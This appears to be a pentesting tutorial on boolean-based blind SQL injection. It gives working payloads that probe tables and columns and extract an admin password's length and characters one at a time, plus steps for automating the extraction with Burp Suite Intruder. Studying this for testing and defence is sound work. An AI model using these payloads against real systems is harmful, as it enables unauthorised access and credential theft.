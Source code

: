 This technique involves injecting conditions that return either **true** or **false**, observing the application's response.
## 1. Verify Injection Point

Modify a parameter (e.g., `id`) to check if the application is vulnerable.

- **True Condition (Response is Normal):**
```sql
' AND '1'='1 -- 
```
- **False Condition (Response is Different):**
```sql
' AND '1'='2 -- 
```
If the response changes, the injection point is confirmed.

## 2. Determine Table Existence

Check if a table (e.g., `users`) exists:
```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a
```
If the response is **true**, the table `users` exists.

## 3.Determine Column Existence

Test for a specific column (e.g., `password` in `users` table):
```sql
' AND (SELECT 'a' FROM users WHERE password IS NOT NULL LIMIT 1)='a
```
If the response is **true**, the column `password` exists.

## 4. Extract Password Length

Use the `LENGTH()` function to find the length of the password:
```sql
' AND (SELECT 'a' FROM users WHERE username='admin' AND LENGTH(password)>1)='a
```
Increase the number until the response turns **false**, identifying the password length.

## 5. Extract Password Characters One by One

Use `SUBSTRING()` to retrieve each character. Example for the first character:
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a 
```
Repeat this process for all positions to reconstruct the full password.

#### Extracting characters using Burpsuite
1. **Send the Vulnerable Request to Intruder**  
   - Capture the vulnerable request in **Burp Suite**.  
   - Send it to Intruder (`Ctrl+I` or right-click → "Send to Intruder").  

2. **Set the Attack Type to Cluster Bomb**  
   - Go to the "Intruder" tab and select the "Positions" sub-tab.  
   - Set the attack type to "Cluster Bomb" (since we will use multiple payloads).  

3. **Configure the First Payload (Character Position)**  
   - Identify the parameter that references the **character position** in the SQL query, such as  `SUBSTRING(password, {POSITION}, 1)`
   - Select this position placeholder in the request.  
   - Assign it a numeric payload from 1 to the expected password length (e.g., `1-20`).  

4. **Configure the Second Payload (Character Extraction)**  
   - Identify the parameter that represents the **character to be checked** in the password, such as `SUBSTRING(password, POSITION, 1) = '{CHARACTER}'`
   - Select this parameter and assign it a character payload.  

5. **Set Up "Grep - Match" for Response Analysis**  
   - Navigate to the "Options" tab in Intruder.  
   - In the "Grep - Match" section, add a keyword that appears only in successful responses.
![](../../../Images/Grep-Match-Burp.png)

6. Start the Attack  
   - Click the **"Start Attack"** button.  

7. Analyze the Results  
   - Burp Suite will generate a results table with multiple payload combinations.  
   - Look for a column with the keyword added in **Grep - Match**.  
   - The requests containing a **match** indicate a **correct character**.  
   - **Repeat the attack** for each position until the full password is extracted.  